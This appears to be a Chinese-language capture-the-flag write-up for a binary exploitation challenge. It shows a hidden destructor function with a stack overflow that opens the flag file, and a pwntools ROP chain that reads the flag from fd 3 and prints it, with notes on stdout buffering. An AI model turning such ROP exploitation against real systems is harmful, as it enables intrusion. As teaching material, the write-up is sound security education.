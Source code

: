 此題沒有附上 source code，單純是要考為 function 加上 `__attribute__((destructor))` 的屬性後，該 function 就會在 `_dl_fini()` 時被呼叫：

``` c
static void fini() __attribute__((destructor));
static void fini()
{
    uint16_t flag[] = {0x2f00, 0x6800, 0x6f00, 0x6d00, 0x6500, 0x2f00, 0x6800, 0x6500, 0x6c00, 0x6c00, 0x6f00, 0x2d00,
                        0x7700, 0x6f00, 0x7200, 0x6c00, 0x6400, 0x2f00, 0x6600, 0x6c00, 0x6100, 0x6700, 0x0000};
    unsigned char owo[23] = {0};

    for (int i = 0; i < 23; i++)
        owo[i] = flag[i] >> 8;
    
    int fd = open(owo, O_RDONLY);
    if (fd == -1)
        return;

    char s[0x10] = {0};
    read(0, s, 1);
    if (s[0] == '\xff')
        read(0, s, 0x200);
}
```



當知道有這個 function 的存在後，直接做 ROP 執行 `read(3, buf, <large_number>) + puts(buf)` 後跳回 `main()`，讓他執行 `fflush()` 將 output buffer 清空即可，ROP payload 如下：

```python
rop = flat(
    # read(3, bss, <large_number>)
    rop_pop_rdi_ret, 3,
    rop_pop_rsi_r15_ret, bss, 0,
    plt_read,
    
    # puts(bss)
    rop_pop_rdi_ret, bss,
    plt_puts,
    
    main # will call fflush(stdout)
)
```



這邊遇到滿多人詢問為什麼在 remote 時 flag 不會輸出，原因在於根據環境的不同，buffer type 也有可能不太一樣，剛好這支程式在 remote 時 buffer type 為 `_IOFBF` (Full buffering)，資料滿的時候才會清空並印出，跟 local 時的 buffer type `_IOLBF` (Line buffering) 並不相同，因此在 remote 才需要透過 `fflush(stdout)` 清空 stdout 的 buffer。



[full exploit and source code](https://github.com/u1f383/Software-Security-2021/tree/master/quals)